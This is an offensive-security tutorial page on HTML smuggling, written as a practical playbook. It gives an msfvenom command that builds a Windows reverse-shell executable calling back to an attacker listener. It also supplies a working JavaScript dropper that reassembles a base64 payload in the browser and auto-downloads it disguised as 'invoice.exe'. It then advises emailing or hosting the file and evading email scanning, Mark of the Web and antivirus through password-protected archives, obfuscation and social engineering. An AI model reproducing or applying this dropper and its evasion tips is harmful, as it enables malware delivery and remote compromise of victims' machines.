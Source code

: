 # HTML Smuggling

**Type:** Malicious Documents & File-Based Delivery
**Platform:** Windows, macOS, Linux (target browser-dependent)  
**Prerequisites:** User must click a malicious link or open a crafted HTML file in a browser; JavaScript must be enabled (default)


---
## Overview

**HTML Smuggling** is a browser-based technique that allows an attacker to **assemble and deliver malicious payloads on the client side**, bypassing traditional email and network security filters. Instead of downloading an executable directly from a remote server, the attacker uses JavaScript to reconstruct the payload in memory or in a blob object, and **triggers a download locally via the browser** making the transfer appear "user-generated."

This technique is widely used in malware campaigns like **APT29**, **Nobelium**, and **Emotet** to deliver downloaders, stealers, and RATs.



---
## How It Works

1. The attacker sends a malicious `.html` file or a phishing link.
2. The user opens the file in a browser (usually Edge, Chrome, or Firefox).
3. Embedded JavaScript code **dynamically builds a malicious file** (e.g., `.js`, `.exe`, `.bat`, `.hta`) using `Blob` and `URL.createObjectURL`.
4. A forced browser download is triggered, typically a password-protected `.zip` or `.js` file.
5. The user executes the downloaded file (stage 2), resulting in code execution .

Because the payload is assembled in memory on the client side, **no actual malware ever crosses the network**, evading perimeter detection tools like firewalls, IDS/IPS, or antivirus scanners.


---
## Prerequisites

- Web server or file hosting platform (optional)
- Browser with JavaScript enabled (default in most modern browsers)
- payload ( `.ps1`, `.exe`, `.js`, `.bat`, or `.vbs` ) "stage2"
- Optional: ZIP archiver for delivery (to evade detection)



---
## Steps to Implement

 1. **Generate a Payload (Example: Reverse Shell)**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.1 LPORT=4444 -f exe -o payload.exe
```

2. **Convert Payload to Base64**
```bash
base64 -w 0 payload.exe > payload.b64
```

3. **Embed Payload in HTML Smuggling Template**

```html
<!DOCTYPE html>
<html>
<body>
<script>
var b64 = 'BASE64_ENCODED_PAYLOAD_HERE';
var binary = atob(b64);
var len = binary.length;
var bytes = new Uint8Array(len);
for (var i = 0; i < len; i++) {
    bytes[i] = binary.charCodeAt(i);
}
var blob = new Blob([bytes], {type: 'application/octet-stream'});
var link = document.createElement('a');
link.href = window.URL.createObjectURL(blob);
link.download = 'invoice.exe';
link.click();
</script>
<p>If nothing downloads, click <a href="#" onclick="link.click()">here</a>.</p>
</body>
</html>
```


> Replace "BASE64_ENCODED_PAYLOAD_HERE" with the full base64 of your payload ( stage2 ).


![[prepare-html-payload.png]]

4. **Host/Deliver the File**

Option 1: Host the file on your web server (e.g., http://attacker.com/delivery.html)

Option 2: Email the HTML file as an attachment

when victim opens the html document it will download our payload ( stage2 ) automatically :
![[open-html-payload.png]]



5. **Execution**
once the file is downloaded on the victim machine, wait until the victim execute it manually ( you can use social engineering !)

![[extract-downloaded-7z-file.png]]
victim open stage2 payload ( malware )
![[pwnd.png]]



---
## Payload/Code Snippets

- **HTML-Based JS Dropper (Blob + Link) , This is the core of HTML smuggling.**
```html
<!DOCTYPE html>
<html>
<body>
<script>
var b64 = 'BASE64_ENCODED_PAYLOAD_HERE';
var binary = atob(b64);
var len = binary.length;
var bytes = new Uint8Array(len);
for (var i = 0; i < len; i++) {
    bytes[i] = binary.charCodeAt(i);
}
var blob = new Blob([bytes], {type: 'application/octet-stream'});
var link = document.createElement('a');
link.href = window.URL.createObjectURL(blob);
link.download = 'invoice.exe';
link.click();
</script>
<p>If nothing downloads, click <a href="#" onclick="link.click()">here</a>.</p>
</body>
</html>
```


---
## Tips

- Use password-protected ZIP archives to wrap .exe or .js files and bypass email scanning
- Use 7zip files to evade the ( Mark of The Web ) security mechanism
- Deliver .html files via legitimate file-sharing platforms like OneDrive or Google Drive
- Use non-executable file extensions (like .txt) and change them post-download via JavaScript
- Trigger download via `link.click()` inside `<script>` to avoid visible hyperlinks
- Combine with JavaScript obfuscation (e.g., JSFuck or packers) for stealth
 


---
## References

- [MITRE ATT&CK T1027.006: HTML Smuggling](https://attack.mitre.org/techniques/T1027/006/)
- [HTML Smuggling: How Blob URLs are Abused to Deliver Phishing Content](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/html-smuggling-how-blob-urls-are-abused-to-deliver-phishing-content/)
- [HTML smuggling: A Stealthier Approach to Deliver Malware](https://www.cyfirma.com/research/html-smuggling-a-stealthier-approach-to-deliver-malware/)


---

**_Author_** : **o-sec**
